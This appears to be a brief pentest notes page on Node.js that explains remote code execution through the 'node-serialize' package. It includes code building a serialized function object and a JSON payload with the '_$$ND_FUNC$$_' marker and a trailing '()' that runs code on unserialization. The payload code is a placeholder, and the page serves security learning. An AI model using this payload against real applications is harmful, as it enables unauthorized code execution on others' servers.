 # node.js

node is a technology allowing server based apps to be written in Javascript.  Why?  I get why...but why?

In all seriousness it's pretty cool, but requires a different approach than the standard php based web applications that are so common.

## Serialize/Unserialize

With node, and in all honesty any serialization framework, there can be issues if the application accepts untrusted input.  With `node-serialize` we can use the following code to serialize a custom function object.

```js
var y = {
    rce: function(){eval(<function>)}
}

var serialize = require('node-serialize')
console.log("Serialized: \n" + serialize.serialize(y))
```

If we then modify the output to call the resulting object as a function we get:

```json
{"rce":"_$$ND_FUNC$$_function (){eval(<function>)}()"}
```

Once the object is unserialized, the function will be called.

### References

[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)[https://blog.websecurify.com/2017/02/hacking-node-serialize.html](https://blog.websecurify.com/2017/02/hacking-node-serialize.html)

